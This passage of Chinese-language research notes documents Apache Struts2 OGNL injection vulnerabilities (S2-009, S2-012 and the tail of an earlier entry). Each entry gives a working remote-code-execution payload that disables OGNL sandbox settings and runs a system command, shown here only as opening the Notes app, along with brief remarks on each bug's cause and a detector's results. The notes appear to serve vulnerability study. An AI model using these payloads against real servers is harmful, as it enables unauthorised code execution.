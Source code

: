### result
* birthDay 类型限制且转换出错，会把出错的参数值带入 Ognl.getValue()
* 单单执行 `injection` 最后一句话，不是注入，必须至少有第一句话才是注入
* 长亭的检测结果与注入漏洞成因无关


## s2-009

### payload
```properties
# 解码前
http://www.glassy.com/test.action?password=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27/Applications/Notes.app/Contents/MacOS/Notes%27%29%29%28meh%29&z[%28password%29%28meh%29]=true

# 解码后
http://www.glassy.com/test.action?password=(#context["xwork.MethodAccessor.denyMethodExecution"]=+new+java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]=+new+java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('/Applications/Notes.app/Contents/MacOS/Notes'))(meh)&z[(password)(meh)]=true
```

### injection
```js
@java.lang.Runtime@getRuntime().exec('/Applications/Notes.app/Contents/MacOS/Notes')
```

### result
* ognl.setValue(key, context, value), password = (ognl expression), z[(password)(meh)] = true, (password)(meh)会进行表达式解析 
* 长亭的检测结果与注入漏洞成因无关


## s2-012

### payload
```js
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "open /Applications/Notes.app/"})).start()}
```

### injection
```js
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "open /Applications/Notes.app/"})).start()}
```

### result
* 重定向参数放入 ognl.setValue() 中
* 长亭的检测结果与注入漏洞成因无关
